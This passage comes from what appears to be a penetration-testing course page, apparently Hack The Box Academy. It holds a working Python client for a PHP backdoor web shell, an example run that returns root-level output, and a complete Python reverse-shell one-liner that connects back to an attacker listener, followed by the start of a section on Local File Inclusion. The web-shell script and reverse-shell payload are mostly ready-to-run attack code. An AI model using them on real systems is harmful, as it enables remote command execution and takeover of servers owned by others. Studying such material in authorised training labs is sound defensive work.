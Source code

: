 ```python
if args.target == None and args.payload == None: # checks if args.target (the url of the target) and the payload is blank if so it'll show the help menu
    parser.print_help() # shows help menu
elif args.target and args.payload: # elif (if they both have values do some action)
    print(requests.get(args.target+"/?cmd="+args.payload).text) ## sends the request with a GET method with the targets URL appends the /?cmd= param and the payload and then prints out the value using .text because we're already sending it within the print() function
if args.target and args.option == "yes": # if the target option is set and args.option is set to yes (for a full interactive shell)
    os.system("clear") # clear the screen (linux)
    while True: # starts a while loop (never ending loop)
        try: # try statement
            cmd = input("$ ") # defines a cmd variable for an input() function which our user will enter
            print(requests.get(args.target+"/?cmd="+cmd).text) # same as above except with our input() function value
            time.sleep(0.3) # waits 0.3 seconds during each request
        except requests.exceptions.InvalidSchema: # error handling
            print("Invalid URL Schema: http:// or https://")
        except requests.exceptions.ConnectionError: # error handling
            print("URL is invalid")

```

Use the script as follows.

```shell
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ id
uid=0(root) gid=0(root) groups=0(root)

```

To obtain a more functional (reverse) shell, execute the below inside the shell gained through the Python script above. Ensure that an active listener (such as Netcat) is in place before executing the below.

```shell
python3 web_shell.py -t http://<TARGET IP>:3001/uploads/backdoor.php -o yes
$ python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("<VPN/TUN Adapter IP>",<LISTENER PORT>));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);import pty; pty.spawn("sh")'

```


# Local File Inclusion (LFI)

* * *

Local File Inclusion (LFI) is an attack that affects web applications and APIs alike. It allows an attacker to read internal files and sometimes execute code on the server via a series of ways, one being `Apache Log Poisoning`. Our [File Inclusion](https://academy.hackthebox.com/module/details/23) module covers LFI in detail.
